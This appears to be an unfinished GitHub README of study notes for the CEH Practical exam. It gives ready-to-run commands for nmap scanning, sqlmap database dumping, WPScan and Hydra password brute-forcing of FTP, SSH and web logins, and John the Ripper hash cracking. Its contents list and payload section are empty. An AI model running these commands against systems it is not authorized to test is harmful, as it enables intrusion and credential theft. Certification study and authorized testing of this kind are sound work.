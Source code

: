 # practicemyself
CEH Practical Important Notes

I'm Preparing CEH Practical V11. hope it will be help full to all of you guys. If any suggetions to me just connect with twitter and dm me. Thank You.

## CEH Practical Contents:
1.
2.
3.
4.
5.
6.
7.
8.
9.
10
11.
12.
14.
15.

## Important Tools and Commands:
1. Nmap:
  $ nmap -sV -sC -O <IP>
  
  -iL = import txt  -oX = output   --top-ports 1000 = UDP 1000 scan   -sU = UDP scan   -sT = TCP scan 
  
2. SQLmap
  for url= -u
  for txtfile= -r
  $ sqlmap -r test.txt --batch --risk 3 --level 4 --dbs
  $ sqlmap -r test.txt --batch --risk 3 --level 4 -D databasename --tables
  $ sqlmap -r test.txt --batch --risk 3 --level 4 -D databasename -T tables name --dump

3. WPscan
$ wpscan --url http://test.com --enumerate u --enumerate p
$ wpscan --url http://test.com --usernames user.txt --passwords pass.txt
  
  Other Commands: --random-agent, 

4. Hydra
  FTP Bruteforce:
  $ hydra -l user -P passlist.txt ftp://IP

  SSH Bruteforce:
  $ hydra -l <username> -P <full path to pass> IP -t 4 ssh

  Post Web Form Bruteforce:
  for single word= -l, -p
  for txt file= -L, -P
  $ hydra -l <username> -P <wordlist> IP http-post-form "/loginUrl:username=^USER^&password=^PASS^:F=incorrect" -V

5. John the Ripper
  $ john -format=raw-md5 hash.txt
  $ john -format=<hashformat> hash.txt
  
6. SSH
  SSH connect:
  $ ssh <username>@IP
  
7. FTP
  FTP Connect
  $ ftp IP

## SQL Injection Payloads:
x
